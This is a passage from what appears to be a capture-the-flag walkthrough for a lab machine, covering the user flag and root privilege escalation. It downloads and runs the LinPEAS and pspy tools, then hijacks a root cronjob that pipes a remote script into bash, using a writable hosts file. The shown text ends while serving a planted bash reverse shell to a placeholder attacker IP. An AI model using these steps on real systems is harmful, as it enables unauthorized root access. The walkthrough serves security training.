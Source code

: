 ### 🏆 User Flag Access
```bash
# User flag has root privileges, copy to accessible location
cp /home/mario/user.txt /tmp/
cat /tmp/user.txt
```

## 🚀 Privilege Escalation

### 🔍 Enumeration with LinPEAS
```bash
# Download and run LinPEAS
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### 🎯 Critical Finding
**🔑 Writable /etc/hosts file discovered**

### 🕵️ Process Monitoring
```bash
# Deploy pspy for real-time process monitoring
wget https://github.com/DominicBreuker/pspy/releases/latest/download/pspy32
chmod +x pspy32
./pspy32
```

### 📅 Cronjob Discovery
**🎯 Root cronjob identified:**
```bash
curl mkingdom.thm:85/app/castle/application/counter.sh | bash
```

## 💥 Cronjob Exploitation

### 📝 Malicious Script Creation
```bash
# Create reverse shell script
cat > counter.sh << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1
EOF
```

### 🌐 HTTP Server Setup
```bash
# Set up directory structure
mkdir -p /app/castle/application/
mv counter.sh /app/castle/application/

# Start HTTP server on port 85
python3 -m http.server 85
```
